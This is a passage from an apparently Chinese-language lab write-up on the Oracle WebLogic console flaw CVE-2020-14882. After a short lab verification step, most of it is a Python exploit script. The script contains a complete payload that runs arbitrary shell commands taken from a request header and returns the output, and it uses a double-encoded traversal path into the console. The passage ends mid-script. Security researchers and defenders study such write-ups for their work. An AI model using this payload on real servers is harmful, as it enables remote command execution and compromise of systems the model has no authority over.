 执行命令成功后，进入靶场容器内验证可以看到 `/tmp/success` 文件已经被创建。

![](images/cve-2020-14882-5.png)

#### 方法一：POST 请求(有回显方式)

EXP 如下：

```python linenums="1"
```py title="14882-exp.py"
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
```